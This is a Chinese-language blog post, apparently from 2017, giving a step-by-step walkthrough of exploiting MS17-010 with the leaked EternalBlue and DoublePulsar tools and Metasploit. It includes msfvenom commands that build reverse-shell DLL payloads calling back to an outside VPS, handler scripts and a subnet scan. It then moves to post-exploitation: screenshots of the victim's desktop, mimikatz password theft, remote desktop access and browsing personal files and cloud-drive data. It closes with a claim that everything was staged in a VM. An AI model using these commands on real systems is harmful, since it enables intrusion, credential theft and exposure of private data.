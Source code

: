 ```yaml
---
title: MS17 010 复现
date: 2017-05-13 16:49:06
tags: Metasploit
---
```


[影响范围看这里][影响范围看这里]，据说利用漏洞来勒索的病毒都有了： [NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索][NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]

针对校内用户的解决办法：

> 关闭445 3389 等端口
  利用路由器（起到隔离作用就行），尽量不要网线直连电脑

不行，这张图我可以笑一天（233~

电子屏幕: 我只是一块显示通知的电子屏幕，我做错了什么QAQ
![电子屏幕][电子屏幕]
<br>
<!--more-->

## Requirement
1. [ngrok][ngrok]
3. [PentestBox With Metasploit][PentestBox With Metasploit] OR [Kali Linux][Kali Linux]
4. [Python2.6.6][Python2.6.6] + [pywin32][pywin32]
5. [EQGRP_Lost_in_Translation][EQGRP_Lost_in_Translation]
 
吐槽1：Win下执行0Day，却要反弹Shell到虚拟机的Kali Linux？？？
吐槽2：Kali Linux的虚拟机镜像远不如直接安装ISO稳定
吐槽3：**路由器IP（192.168.1.x）生成的Payload不能在内网（127.27.x.x）反弹Shell**

所以一会要用到ngrok，或者租个便宜服务器反弹Shell，你喜欢就好~

事实证明**PentestBox**要方便一点，记得下载含**Metasploit**的版本

<br>
## Hack This
### 配置PentestBox
删除`PentestBox\base\python`（2.7.3），然后安装2.6.6版本的Python 和 Pywin32

在`PentestBox\config` 的aliases文件里添加这么一行`python2="%pentestbox_ROOT%\base\python2\python.exe" $*`，打开PentestBox输入`python2 --version`出现版本信息代表命名成功

![python2][python2]

解压`EQGRP_Lost_in_Translation-master`，修改windows目录下的fb文件，注释掉26，27，28，72行
![26-28][26-28]
![72][72]
<br>

### 生成DLL Payload
如果直接在内网的话是可以把下面`VPS_IP`替换成自己的，但是不建议这么做，万一入侵的是**蜜罐+没清除记录+尝试风险操作+长时间在线**，很容易翻车。拿ngrok转发一下本地的端口比较保险。

但是如果内网机器不能访问外网，只能用内网IP生成Payload

x86:

    msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x86_tcp.dll
x64:

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=VPS_IP LPORT=port --platform win -f dll -o x64_tcp.dll

### Msfconsole
x86.rb

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false #后台运行
    set LHOST 192.168.1.245 # LHOST
    set LPORT 4444 #监听x86 Payload的端口
    exploit -j -z

x64.rb

    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_tcp
    set stagerverifysslcert false
    set ExitOnSession false
    set LHOST 192.168.1.245
    set LPORT 4445 #监听x64 Payload的端口
    exploit -j -z

开启ngrok转发
![ngrok-port][ngrok-port]
<br>
开两个窗口开始监听

    msfconsole -r x86.rb
    
    msfconsole -r x64.rb
    
![msfconsole][msfconsole]

### 确认内网目标
下载[MS17扫描模块][MS17扫描模块]的rb文件，放到`PentestBox\bin\metasploit-framework\modules\auxiliary\scanner\smb`里面

scan.rb

    use auxiliary/scanner/smb/smb_ms_17_010 #新添加的模块
    set THREADS 16
    set RHOSTS 172.27.10.1-254 #目标网段
    exploit

开始扫描目标网段
    
    msfconsole -r scan.rb

确认目标``172.27.10.21``
![target][target]

<br>
### Attack！  

    python2 fb.py
填好目标和本地IP，转发选择no，使用**Eternalblue**入侵模块
![ip][ip]
一路回车到这个地方，选择平台和攻击方式**1) FB**
![arch-fb][arch-fb]
继续回车，出现这个代表入侵成功
![Eternalblue][Eternalblue]
<br>
再使用**Doublepulsar**模块来反弹Shell，根据平台填入我们刚才生成的DLL Payload

**ProcessName一定要填写目标主机正在运行的进程名，否则会使目标主机自动关机或注销， 一般填svchost.exe**
![Doublepulsar][Doublepulsar]
<br>
一路回车后就应该能看到ngrok有转发的效果和msf成功反弹的Shell了
![ngrok-reverse][ngrok-reverse]
<br>
![Shell][Shell]
<br>

## Shell仅仅只是开始
如果有入侵经验的人一定知道我想表达什么
> 目前权限是否为SYSTEM，如果不是，该怎么提权？提权会不会引起注意？
  目标主机装有杀毒软件的时候怎么Bypass UAC拿到当前用户密码？
  要是目标主机突然关机了该如何进行下一次渗透？亦或者留下隐藏后门进行持续性控制？
  端口转发该用什么工具？使用过程是否灵活？
  拿下一台服务器权限后怎么进一步扩大战果？内网漫游怎么尽快获取域控的最高权限以便拿下整个内网？
  如何有效收集你想要的信息？ 
  如何尽可能清除入侵记录？
  。。。。。。

运气不错，目标主机（实验室的电脑）没有360，`get system`就拿到了管理员权限，看看在干嘛

    screenshot -q 100 -p F:\\Hacker\\PentestBox\\output\\test.jpeg
![screenshot][screenshot]
<br>
![screenshot2][screenshot2]
<br>
这个时间点（12:49 PM）应该不在电脑前，估计是忘记锁屏了
利用mimikatz神器拿到用户密码

    load mimikatz
    mimikatz_command -f sekurlsa::searchPasswords
![password][password]
<br>
然后`run getgui -e`开启远程桌面连接，直接连上去了

然后打开硬盘看看能收集到什么有用的信息
![班级][班级]
<br>
![上网账号][上网账号]
<br>
![sad][sad]
<br>
后台居然还挂着个百度盘。。。
![百度盘][百度盘]
<br>
![excited][excited]
<br>
**我们不开车！
我们不开车！
我们不开车！**


**----------------严肃的分割线----------------**
手机安装了百度盘客户端的，可能不小心（被）设置了手机自动备份，那么手机里面的相册，音乐，甚至是通讯录都会自动保存到百度盘。。。
![个人信息][个人信息]
<br>

## END?
每次都打这么多命令很烦的，对于我这种懒人来说，有一条法则永远通用：
        
> 如果某些事情，甚至可以说是任何事情，哪怕只需要花费他超过90 秒的时间，那他会写脚本来自动处理那些事情

嗯，我知道你们看得懂，批量扫描内网主机的任务就交给你们写了（Python可以操作CMD，多进程，加油~
![lan][lan]
<br><br>

![内网漫游][内网漫游]
<br>
**以上全部的入侵内容都是我编的，入侵操作仅在本地虚拟机进行，切勿违法使用**

    最近沉迷Powershell提权（Bypass UAC，后门持续控制）和BadUSB无法自拔。后续文章更新等放假再说吧
**Shell仅仅只是开始。。。**

<br><br>
> **这个打赏二维码好像有什么不对**

**支付宝** 
![支付宝][支付宝]
**微信**  
![微信][微信]
[支付宝]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/alipay/shakalaka_ailipay.gif?imageView2/1/w/200/h/200
[微信]: https://of4jd0bcc.qnssl.com/Blog/%E6%89%93%E8%B5%8F/wechat/patapon_wechat.gif?imageView2/1/w/200/h/200

[影响范围看这里]: https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
[NSA “永恒之蓝”勒索蠕虫爆发，开机即可被勒索]: http://www.leiphone.com/news/201705/iGXUMArn1cP1livY.html
[电子屏幕]: https://of4jd0bcc.qnssl.com/smb/%E7%94%B5%E5%AD%90%E5%B1%8F%E5%B9%95.png
[ngrok]: https://github.com/inconshreveable/ngrok
[Metasploit]: https://github.com/rapid7/metasploit-framework
[Python2.6.6]: https://www.python.org/download/releases/2.6.6/
[pywin32]: https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/
[PentestBox With Metasploit]: https://pentestbox.org/
[Kali Linux]: https://www.kali.org/
[EQGRP_Lost_in_Translation]: https://github.com/x0rz/EQGRP_Lost_in_Translation
[python2]: https://of4jd0bcc.qnssl.com/smb/python2.png
[26-28]: https://of4jd0bcc.qnssl.com/smb/26-28.png
[72]: https://of4jd0bcc.qnssl.com/smb/72.png
[ngrok-port]: https://of4jd0bcc.qnssl.com/smb/ngrok.png
[msfconsole]: https://of4jd0bcc.qnssl.com/smb/msfconsole.png
[MS17扫描模块]: https://github.com/RiskSense-Ops/MS17-010/tree/master/scanners
[target]: https://of4jd0bcc.qnssl.com/smb/target2.png
[ip]: https://of4jd0bcc.qnssl.com/smb/ip.png
[arch-fb]: https://of4jd0bcc.qnssl.com/smb/arch-fb.png
[Eternalblue]: https://of4jd0bcc.qnssl.com/smb/Eternalblue.png
[Doublepulsar]: https://of4jd0bcc.qnssl.com/smb/Doublepulsar.png
[ngrok-reverse]: https://of4jd0bcc.qnssl.com/smb/ngrok-reverse.png
[Shell]: https://of4jd0bcc.qnssl.com/smb/Shell.png
[screenshot]: https://of4jd0bcc.qnssl.com/smb/screenshot.jpg
[screenshot2]: https://of4jd0bcc.qnssl.com/smb/screenshot2.jpg
[password]: https://of4jd0bcc.qnssl.com/smb/password.png
[班级]: https://of4jd0bcc.qnssl.com/smb/%E7%8F%AD%E7%BA%A7.png
[上网账号]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%8A%E7%BD%91%E8%B4%A6%E5%8F%B72.png
[sad]: https://of4jd0bcc.qnssl.com/smb/sad.png?imageView2/1/w/200/h/200
[excited]: https://of4jd0bcc.qnssl.com/smb/excited2.png
[百度盘]: https://of4jd0bcc.qnssl.com/smb/%E7%99%BE%E5%BA%A6%E7%9B%98.png
[个人信息]: https://of4jd0bcc.qnssl.com/smb/%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF.png
[内网漫游]: https://of4jd0bcc.qnssl.com/smb/%E5%86%85%E7%BD%91%E6%BC%AB%E6%B8%B8.png
[lan]: https://of4jd0bcc.qnssl.com/smb/lan.png